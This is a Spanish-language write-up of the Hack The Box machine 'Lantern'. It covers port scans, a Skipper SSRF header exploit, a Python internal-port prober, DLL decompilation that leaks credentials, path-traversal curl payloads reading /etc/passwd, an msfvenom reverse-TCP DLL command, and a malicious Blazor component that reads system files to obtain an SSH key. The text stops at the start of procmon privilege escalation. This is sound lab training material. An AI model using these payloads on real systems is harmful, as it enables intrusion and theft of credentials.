


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Lantern Writeup | Hard"
date = "2024-12-06"
description = ""
tags = [
    "HackTheBox",
    "Lantern",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "Path Traversal",
    "Local File Inclusion",
    "Server-Side Request Forgery",
    "Discovering Internal Services",
    "Decompiling .NET",
    "Information Leakage",
    "Arbitrary File Upload",
    "Malicious Blazor Component",
    "Abusing procmon"
]

+++

# TCP Enumeration

```shell
rustscan -a 10.129.233.201 --ulimit 5000 -g 
10.129.233.201 -> [22,80,3000]
```

```shell
nmap -p22,80,3000 -sCV 10.129.233.201 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:01 CEST
Stats: 0:01:35 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 17:02 (0:00:00 remaining)
Nmap scan report for 10.129.233.201
Host is up (0.037s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:c9:47:d5:89:f8:50:83:02:5e:fe:53:30:ac:2d:0e (ECDSA)
|_  256 d4:22:cf:fe:b1:00:cb:eb:6d:dc:b2:b4:64:6b:9d:89 (ED25519)
80/tcp   open  http    Skipper Proxy
|_http-server-header: Skipper Proxy
|_http-title: Did not follow redirect to http://lantern.htb/
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Length: 207
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 13:01:32 GMT
|     Server: Skipper Proxy
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Length: 225
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 13:01:27 GMT
|     Location: http://lantern.htb/
|     Server: Skipper Proxy
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://lantern.htb/">http://lantern.htb/</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Content-Type: text/html; charset=utf-8
|     Date: Fri, 23 Aug 2024 13:01:27 GMT
|_    Server: Skipper Proxy
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 500 Internal Server Error
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Date: Fri, 23 Aug 2024 13:01:31 GMT
|     Server: Kestrel
|     System.UriFormatException: Invalid URI: The hostname could not be parsed.
|     System.Uri.CreateThis(String uri, Boolean dontEscape, UriKind uriKind, UriCreationOptions& creationOptions)
|     System.Uri..ctor(String uriString, UriKind uriKind)
|     Microsoft.AspNetCore.Components.NavigationManager.set_BaseUri(String value)
|     Microsoft.AspNetCore.Components.NavigationManager.Initialize(String baseUri, String uri)
|     Microsoft.AspNetCore.Components.Server.Circuits.RemoteNavigationManager.Initialize(String baseUri, String uri)
|     Microsoft.AspNetCore.Mvc.ViewFeatures.StaticComponentRenderer.<InitializeStandardComponentServicesAsync>g__InitializeCore|5_0(HttpContext httpContext)
|     Microsoft.AspNetCore.Mvc.ViewFeatures.StaticC
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 13:01:36 GMT
|     Server: Kestrel
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 13:01:31 GMT
|     Server: Kestrel
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 13:01:37 GMT
|     Server: Kestrel
|   SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|     Date: Fri, 23 Aug 2024 13:01:52 GMT
|_    Server: Kestrel
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=8/23%Time=66C8A444%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,18F,"HTTP/1\.0\x20302\x20Found\r\nContent-Length:\x20225\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nDate:\x20Fri,\x2023\x20A
SF:ug\x202024\x2013:01:27\x20GMT\r\nLocation:\x20http://lantern\.htb/\r\nS
SF:erver:\x20Skipper\x20Proxy\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>
SF:\n<title>Redirecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\
SF:x20should\x20be\x20redirected\x20automatically\x20to\x20the\x20target\x
SF:20URL:\x20<a\x20href=\"http://lantern\.htb/\">http://lantern\.htb/</a>\
SF:.\x20If\x20not,\x20click\x20the\x20link\.\n")%r(HTTPOptions,A5,"HTTP/1\
SF:.0\x20200\x20OK\r\nAllow:\x20HEAD,\x20OPTIONS,\x20GET\r\nContent-Length
SF::\x200\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nDate:\x20Fri,
SF:\x2023\x20Aug\x202024\x2013:01:27\x20GMT\r\nServer:\x20Skipper\x20Proxy
SF:\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(FourOhFourRequest,162,"HTTP/1\.0\x20404\x20
SF:Not\x20Found\r\nContent-Length:\x20207\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2023\x20Aug\x202024\x2013:01:32\x20GM
SF:T\r\nServer:\x20Skipper\x20Proxy\r\n\r\n<!doctype\x20html>\n<html\x20la
SF:ng=en>\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>T
SF:he\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\
SF:x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x2
SF:0your\x20spelling\x20and\x20try\x20again\.</p>\n")%r(GenericLines,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(He
SF:lp,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.94SVN%I=7%D=8/23%Time=66C8A449%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,114E,"HTTP/1\.1\x20500\x20Internal\x20Server\x20Error\r\nCo
SF:nnection:\x20close\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Date:\x20Fri,\x2023\x20Aug\x202024\x2013:01:31\x20GMT\r\nServer:\x20Kes
SF:trel\r\n\r\nSystem\.UriFormatException:\x20Invalid\x20URI:\x20The\x20ho
SF:stname\x20could\x20not\x20be\x20parsed\.\n\x20\x20\x20at\x20System\.Uri
SF:\.CreateThis\(String\x20uri,\x20Boolean\x20dontEscape,\x20UriKind\x20ur
SF:iKind,\x20UriCreationOptions&\x20creationOptions\)\n\x20\x20\x20at\x20S
SF:ystem\.Uri\.\.ctor\(String\x20uriString,\x20UriKind\x20uriKind\)\n\x20\
SF:x20\x20at\x20Microsoft\.AspNetCore\.Components\.NavigationManager\.set_
SF:BaseUri\(String\x20value\)\n\x20\x20\x20at\x20Microsoft\.AspNetCore\.Co
SF:mponents\.NavigationManager\.Initialize\(String\x20baseUri,\x20String\x
SF:20uri\)\n\x20\x20\x20at\x20Microsoft\.AspNetCore\.Components\.Server\.C
SF:ircuits\.RemoteNavigationManager\.Initialize\(String\x20baseUri,\x20Str
SF:ing\x20uri\)\n\x20\x20\x20at\x20Microsoft\.AspNetCore\.Mvc\.ViewFeature
SF:s\.StaticComponentRenderer\.<InitializeStandardComponentServicesAsync>g
SF:__InitializeCore\|5_0\(HttpContext\x20httpContext\)\n\x20\x20\x20at\x20
SF:Microsoft\.AspNetCore\.Mvc\.ViewFeatures\.StaticC")%r(Help,78,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20cl
SF:ose\r\nDate:\x20Fri,\x2023\x20Aug\x202024\x2013:01:31\x20GMT\r\nServer:
SF:\x20Kestrel\r\n\r\n")%r(HTTPOptions,6F,"HTTP/1\.1\x20200\x20OK\r\nConte
SF:nt-Length:\x200\r\nConnection:\x20close\r\nDate:\x20Fri,\x2023\x20Aug\x
SF:202024\x2013:01:36\x20GMT\r\nServer:\x20Kestrel\r\n\r\n")%r(RTSPRequest
SF:,87,"HTTP/1\.1\x20505\x20HTTP\x20Version\x20Not\x20Supported\r\nContent
SF:-Length:\x200\r\nConnection:\x20close\r\nDate:\x20Fri,\x2023\x20Aug\x20
SF:2024\x2013:01:37\x20GMT\r\nServer:\x20Kestrel\r\n\r\n")%r(SSLSessionReq
SF:,78,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\nDate:\x20Fri,\x2023\x20Aug\x202024\x2013:01:52\x20G
SF:MT\r\nServer:\x20Kestrel\r\n\r\n")%r(TerminalServerCookie,78,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20clo
SF:se\r\nDate:\x20Fri,\x2023\x20Aug\x202024\x2013:01:52\x20GMT\r\nServer:\
SF:x20Kestrel\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.82 seconds
```
# UDP Enumeration

```shell
sudo nmap --top-ports 1500 10.129.233.201 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:03 CEST
Nmap scan report for 10.129.233.201
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
19374/udp closed unknown
20445/udp closed unknown
25036/udp closed unknown
26026/udp closed unknown
28745/udp closed unknown
49182/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

# HTTP Enumeration
En el escaneo inicial detectamos el dominio `lantern.htb`, lo añadimos al `/etc/hosts`

También en el puerto 3000 vemos un servidor `Kestrel`, un servidor que alberga aplicaciones ASP.NET.

También el puerto 80 vemos un proxy Skipper
https://github.com/zalando/skipper

Un proxy inverso hecho por zalando.

## 80/TCP
```shell
whatweb http://lantern.htb
http://lantern.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Skipper Proxy], IP[10.129.233.201], Meta-Author[Devcrud], Script, Title[Lantern]
```
`whatweb` no reporta ningún CMS.

Vemos un recurso `main.js` que contiene una función que hace una petición POST a `/submit`


Esto me olió a un rabbit hole, así que pasé a enumerar el puerto 3000.
## 3000/TCP


Podemos ver los típicos comentarios en aplicaciones .NET


Detecté viendo los recursos de red del navegador, que al intentar iniciar sesión no se hace ninguna petición por detrás. Eso significa que de alguna forma la aplicación sabe la contraseña para iniciar sesión por lo que tiene que estar hardcodeado de alguna forma.

En una máquina que realicé anteriormente se conseguía información privilegiada a través de descargar archivos .dll en la ruta de `/_framework/*`. Por lo cual supongo que tienen que ir por ahí los tiros.


Después de no encontrar nada tras un rato, encontré esto. Una extensión para analizar el tráfico de Blazor en Burpsuite
Podemos descargarlo de [aquí](https://portswigger.net/bappstore/8a87b0d9654944ccbdf6ae8bdd18e1d4)


# Server-Side Request Forgery
Después de comerme la cabeza volví a analizar el puerto 80 y encontré que la versión de Skipper es vulnerable a SSRF
https://www.exploit-db.com/exploits/51111

Agregando la cabecera `X-Skipper-Proxy` y nuestra IP.

```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.233.201 - - [23/Aug/2024 17:58:06] code 404, message File not found
10.129.233.201 - - [23/Aug/2024 17:58:06] "GET http://lantern.htb/ HTTP/1.1" 404 -
```

Vamos a intentar listar servicios internos, para ello vamos a hacer un pequeño script en python.

## Discovering Internal Services
Le pregunté a ChatGPT una lista de puertos comunes de servicios web para intentar interactuar con ellos a través del SSRF.

```python
import requests
from pwn import * 

BASE_URL = "http://lantern.htb"
BASE_LENGTH = 20
SSRF_HEADER = "X-Skipper-Proxy"

puertos_http = [
    80,    # HTTP estándar
    8080,  # HTTP alternativo
    443,   # HTTPS estándar
    8443,  # HTTPS alternativo
    8000,  # Desarrollo de servidores locales
    8888,  # Jupyter notebooks
    8880,  # Alternativa HTTP
    81,    # HTTP secundario, a veces utilizado para cámaras web y otros dispositivos
    591,   # FileMaker, servicios web
    280,   # http-mgmt
    631,   # IPP (Internet Printing Protocol)
    8008,  # Alternativa HTTP, utilizado a veces por proxies o servicios de API
    8081,  # HTTP alternativo, a menudo usado para servidores web o proxies
    8090,  # HTTP alternativo, a veces utilizado para proxies
    9080,  # HTTP alternativo, a menudo usado en entornos de desarrollo
    4848,  # GlassFish Administration Console
    9000,  # Servicios web como SonarQube, PHP-FPM
    9081,  # Servicios alternativos o de desarrollo
    7001,  # WebLogic Administration Console
    8444,  # HTTPS alternativo, a veces utilizado en entornos de desarrollo
    35357, # OpenStack Identity (Keystone) Admin API
    5000,  # Desarrollo local con Flask y otros frameworks
]

def scan():
    p = log.progress("Probando con: ")
    for port in puertos_http:
        p.status(port)
        headers = {
            SSRF_HEADER: f"http://127.0.0.1:{port}"
        }
        r = requests.get(BASE_URL,headers = headers)
        if len(r.text) != BASE_LENGTH:
            log.success(f"Hay algo en el puerto -> {port}")

if __name__ == "__main__":
    scan()
```

```shell
python3 scan.py 
[p] Probando con: : 5000
[+] Hay algo en el puerto -> 80
[+] Hay algo en el puerto -> 8000
[+] Hay algo en el puerto -> 5000
```

Después de investigar un poco vemos que el puerto 80 corresponde a la aplicación principal, la aplicación del puerto 8000 también.

Pero la aplicación del puerto 5000 corresponde a otra aplicación Blazor distinta que la del puerto 3000

Ignorar el `file://`, por alguna razón igualmente resuelve a la dirección interna con el `file://`


Descubrí que podemos leer las rutas internas introduciendo en la cabecera el servicio donde apuntamos pero debemos apuntar al recurso deseado de forma normal,.


De esta forma, dirigiéndonos a `http://lanterp.htb/_framework/blazor.webassembly.js` apunta mediante la cabecera `X-Skipper-Proxy` a `http://lantern.htb:5000/_framework/blazor.webassembly.js`

Encontramos un archivo `blazor.boot.json`


Este archivo contiene los archivos .dll necesarios junto a su hash SHA-256
https://learn.microsoft.com/en-us/aspnet/core/blazor/host-and-deploy/webassembly-caching/?view=aspnetcore-8.0

> When Blazor WebAssembly downloads an app's startup files, it instructs the browser to perform integrity checks on the responses. Blazor sends SHA-256 hash values for DLL (`.dll`), WebAssembly (`.wasm`), and other files in the `blazor.boot.json` file.

Debido a mi experiencia con anteriores máquinas, en estos .dll puede haber información confidencial.
Vamos a buscar algún dll que no sea de Microsoft.

Suele tener el formato
`Company.Resource.dll`
```shell
cat blazor.boot.json | grep Lantern
  "entryAssembly": "InternaLantern",
      "InternaLantern.dll": "sha256-pblWkC\/PhCCSxn1VOi3fajA0xS3mX\/\/RC0XvAE\/n5cI="
      "InternaLantern.pdb": "sha256-E8WICkNg65vorw8OEDOe6K9nJxL0QSt1S4SZoX5rTOY="
```

## Decompiling `InternaLantern.dll` -> Information Leakage
Vamos a descargar el recurso `InternaLantern.dll`
```shell
wget http://lantern.htb/_framework/InternaLantern.dll --header 'X-Skipper-Proxy: http://127.0.0.1:5000'
--2024-08-23 18:28:50--  http://lantern.htb/_framework/InternaLantern.dll
Resolving lantern.htb (lantern.htb)... 10.129.233.201
Connecting to lantern.htb (lantern.htb)|10.129.233.201|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 55808 (54K) [application/octet-stream]
Saving to: ‘InternaLantern.dll’

InternaLantern.dll     100%[==========================>]  54,50K  --.-KB/s    in 0,07s   

2024-08-23 18:28:50 (747 KB/s) - ‘InternaLantern.dll’ saved [55808/55808]

┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/lantern/content]
└──╼ [★]$ file InternaLantern.dll 
InternaLantern.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Ahora con `dotPeek` podemos decompilar este dll para ver que contiene.

Vemos que en la clase `Vacancies` hay algunos datos hardcodeados de algunos empleados


Y vemos unas credenciales...

`admin:AJbFA_Q@925p9ap#22`

También detectamos que de almacenamiento se utiliza SQLite3 y el nombre del fichero es `Data.db`


Con estas credenciales podemos iniciar sesión en el panel administrativo del puerto 3000.


Me llama la atención la función para subir archivos.


Efectivamente los archivos se suben.


Me encontré con el siguiente error.


Quiero pensar que si consigo subir un .dll malicioso a esa ruta conseguiré ejecutar comandos en el sistema.

Aunque podemos hacer un Path Traversal y cargar el dll del directorio `images`


Probé a crear un dll con `msfvenom`
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=443 -f dll > evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 9216 bytes
```

Pero sigue saliendo este error.


## Lateral Thinking -> Path Traversal
Como podemos ver el archivo `app.py` podemos ver el código fuente de la aplicación del puerto 80

```python
@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')
```
Vemos esta sección de código en el cual detectamos que es vulnerable a Path Traversal

A través de los parámetros `lang` y `ext` se puede especificar un archivo
`/blabla/blalblab/blalbaba/lang.ext`
Si hacemos que `lang` valga un `.` y que `ext` valga por ejemplo `/../../../../../../etc/passwd`

La ruta sería la siguiente:
`/blabla/blalblab/blalbaba/../../../../../../../etc/passwd`

```shell
curl 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www/sites:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tomas:x:1000:1000:tomas:/home/tomas:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Ahora recordemos que había una BBDD SQLite3 llamada `Data.sql`

Después de un rato esto no sirvió de nada.

En el panel de administración vemos que SI existe un módulo `Logs.dll`

Podríamos intentar descargarnos este DLL a ver como se ve.


Recordemos que gracias al error anterior, la ruta de este archivo es `/opt/components/Logs.dll`

Vamos a descargar este archivo mediante el Path Traversal.

```shell
curl 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../../opt/components/Logs.dll' -o Logs.dll
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8192  100  8192    0     0   102k      0 --:--:-- --:--:-- --:--:--  103k
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/lantern/content]
└──╼ [★]$ file Logs.dll 
Logs.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Me di cuenta de que el DLL que hemos creado anteriormente no es un componente válido de ASP.NET por eso no ejecuta ningún comando.


Podríamos intentar crear nuestro propio componente de ASP.NET, compilarlo, subirlo y probar a ver si ejecuta un comando...

Antes de hacerlo me di cuenta de lo siguiente


Por alguna razón no carga el componente `Logs` por lo cual antes de hacer nada necesito una forma para poder subir archivos en `/opt/components`

# Arbitrary File Upload
Después de probar un rato, podemos encontrar que se hace una especie de verificación por detrás al subir un archivo utilizando la funcionalidad del panel de administración `Upload content`

Y es que intenté modificar el nombre del archivo que estaba subiendo (intentando subir el archivo Logs.dll original) a `../../../../../../opt/components/Loga.dll` pero por alguna razón no se subía.

Sin embargo, intente subir el archivo y al interceptar la petición la renombre para que el archivo se llamase `Loga.dll` en vez de `Logs.dll` y me dejó subir el archivo, así que supuse que esto es por la longitud del archivo.

Si renombramos el archivo para que la longitud sea la misma que `../../../../../../../../opt/components/Loga.dll` (47 caracteres)


Ahora si intentamos subir el archivo e interceptamos la petición..


Y renombramos el archivo..


Conseguimos la subida del archivo. En principio debe de estar en `/opt/components/Loga.dll`


# Creating Malicious Blazor Component | Foothold
Si intentamos hacer uso de la funcionalidad para cargar el módulo vemos que nos da un error distinto, esto significa que hemos cargado correctamente el archivo en la ruta especificada, pero está buscando un Loga.Component , quiero pensar que es una clase dentro del namespace, además el namespace en principio es `Logs` y no `Loga`.


Voy a instalar el SDK de .NET en mi Parrot siguiendo esta guía de Microsoft
https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#scripted-install

Creamos la clase
```shell
dotnet new classlib -n wawo
```

Agregamos las librerías de ASP.NET
```shell
dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
```


Modificamos el archivo `Wawo.cs` para seguir la estructura del `Logs.dll` y cargar por ejemplo el `/etc/hosts` y mostrarlo por pantalla
```C#
using Microsoft.AspNetCore.Components;
using Microsoft.AspNetCore.Components.Rendering;
using System.IO;
namespace wawo
{
    public class Component : ComponentBase
    {
        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);
            builder.AddContent(0, File.ReadAllText("/etc/passwd"));
        }
    }
}
```

Compilamos...
```shell
dotnet build -c Release
```

Y si hacemos el proceso de subida (renombrar, interceptar y renombrar)...


~~Eso ha sido muy tedioso...~~

Tuve suerte porque intenté cargar el archivo `/home/tomas/.ssh/id_rsa` y existió, esto me quito el proceso de tener que mandarme una reverse shell...




Ahora podemos formatear esta clave privada con la ayuda de [samltools](https://www.samltool.com/format_privatekey.php)

Y conseguimos conectarnos por SSH!
```shell
ssh -i id_rsa.tomas tomas@lantern.htb
The authenticity of host 'lantern.htb (10.129.233.201)' can't be established.
ED25519 key fingerprint is SHA256:TDl7Vj5oD2AZDjVsj4t27pGKbPAUTS5AeP37kKzubpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'lantern.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Aug 23 05:23:00 PM UTC 2024

  System load:           0.04
  Usage of /:            65.6% of 8.76GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.129.233.201
  IPv6 address for eth0: dead:beef::250:56ff:fe94:7c4d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Aug 15 13:00:50 2024 from 10.10.14.46
tomas@lantern:~$ whoami
tomas
```

# Privilege Escalation
## Obtaining `root` credentials dumping memory with `procmon`

Podemos detectar que el usuario `tomas` puede ejecutar como el usuario que quiera el binario `procmon`

```shell
tomas@lantern:/tmp$ sudo -l
Matching Defaults entries for tomas on lantern:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tomas may run the following commands on lantern:
    (ALL : ALL) NOPASSWD: /usr/bin/procmon
```

Corriendo el `pspy64` vemos lo siguiente.
